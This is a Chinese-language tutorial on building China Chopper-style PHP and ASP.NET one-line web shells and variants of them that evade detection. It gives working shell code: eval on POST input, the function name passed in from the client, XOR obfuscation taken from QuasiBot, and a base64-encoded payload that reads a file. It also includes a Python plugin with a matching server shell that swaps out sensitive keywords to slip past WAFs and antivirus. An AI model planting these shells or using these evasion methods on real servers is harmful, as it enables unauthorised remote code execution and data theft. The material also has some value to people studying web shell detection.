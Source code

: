 # 经典菜刀一句话小马及其变形的设计思路

经典的菜刀一句话类似于：
```PHP
@eval($_POST['pass'])
```

这里的eval便是我们要执行的动作。而真正要执行的代码以字符串形式存在的$_POST['pass']。

这类小马总是接受来自客户端的发来的Request，然后对其中特定的邪恶字符串动态求值，并将执行结果以特定的格式Response回客户端。一句话小马的核心特征总是可以归结为这样的形式：

```PHP
$act（$evilStr）
```

其中，$act可能代表eval、system，或如带e标志的preg_replace之类可执行字符串的动作，$evilStr代表一段以字符串形式存在的邪恶代码。

## 动作

在服务端的木马中直接写eval之类的敏感词很可能会导致被查杀。有两种基本思路可以绕过这个问题：

* 在服务端的小马里对动作名进行混淆
* 从客户端向小马传递动作名，从而避免在服务端的小马里看到eval之类的代码

### 混淆动作名

混淆动作名的方法很多，如字符串拼接、base64编码等等。关键是隐藏自己。

### 从客户端传递动作名：

木马类似于：

```PHP
$act=$_GET['act'];
$evilStr=$_POST['evilStr'];
$act($evilStr);
```

则客户端POST恶意数据到victim.php?act=eval即可完成。

### 结合两者：

比如QuasiBot的服务端木马：

```PHP
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/"); # 结果为$_="GET"
    ${'_'.$_}["_"](${'_'.$_}["__"]);    #结果为$_GET['_']($_GET['__'])
    print "{:|".md5("666".date("h:d"))."{:|".PHP_OS."{:|-->";
}else{
    //...
}
```

很显然，这段代码实际上是利用异或^运算符做了代码混淆，本质上还是通过客户端传递动作名来达到隐蔽自己的效果。



## 邪恶代码的字符串

这部分便是我们实际要运行的代码。由于WAF的缘故，经常需要对之进行编码加密，常用的便是利用base64_decode()。
解密工作可以放到服务端的小马中完成，也可以放在邪恶字符串中——每当邪恶字符串被求值的时候，就会触发自解密。
比如菜刀的某一段邪恶功能字符串经过整理后可能类似于：
```ASP.NET
//ee=
Response.Write("->|");
var err:Exception;
try{
    eval(
        System.Text.Encoding.GetEncoding(65001).GetString(
            System.Convert.FromBase64String("dmFyIFA9U3lzdGVtLlRleHQuRW5jb2RpbmcuR2V0RW5jb2RpbmcoNjUwMDEpLkdldFN0cmluZyhTeXN0ZW0uQ29udmVydC5Gcm9tQmFzZTY0U3RyaW5nKFJlcXVlc3QuSXRlbVsiejEiXSkpO3ZhciBtPW5ldyBTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyKFAsRW5jb2RpbmcuRGVmYXVsdCk7UmVzcG9uc2UuV3JpdGUobS5SZWFkVG9FbmQoKSk7bS5DbG9zZSgpOw%3D%3D")
        ),
        "unsafe"
    );
}catch(err){
    Response.Write("ERROR:// "%2Berr.message);
}
Response.Write("|<-");
Response.End();
```
配合着发送的还有这样一个QueryString

```ASP.NET
z1=QzpcXERvY3VtZW50cyBhbmQgU2V0dGluZ3NcXEFkbWluaXN0cmF0b3JcXOahjOmdolxcMjIyLmNzdg%3D%3D
```

其中，
1. ee代表的邪恶字符串经过urldecode、base64_decode之后，得到明文是:
var P=System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["z1"]));var m=new System.IO.StreamReader(P,Encoding.Default);Response.Write(m.ReadToEnd());m.Close();
2. z1实际上是一段经过base64编码的字符串，用作ee代表的那段邪恶代码的变量。

当然，这样直接把eval和base_decode这类敏感词写到邪恶字符串中，还是很容易被查杀，所以一个习科有个Python插件版的菜刀，支持把eval、base_decode()之类的敏感词替换为其他非敏感字符串，然后再在服务端的小马中予以还原。

Python的插件脚本为：
```Python
def makepostdata(headers,postdata):
    open('headers.txt','wb').write(headers)
    open('postdata.txt','wb').write(postdata)
    headers = headers.replace('X-Forwarded-For','asdasd')
    postdata = postdata.replace('eval','xxxx')
    postdata = postdata.replace('base64_decode','yyyy')
    return headers,postdata
```

这个插件作者给出的服务端的小马类似于：
```PHP
<?php
    function xxxx($str){return eval($str);}
    function yyyy($str){return base64_decode($str);}
    xxxx($_POST['pass']);
?>
```

当然，这种服务端小马对敏感词未做混淆，可以配合异或符进一步隐蔽。
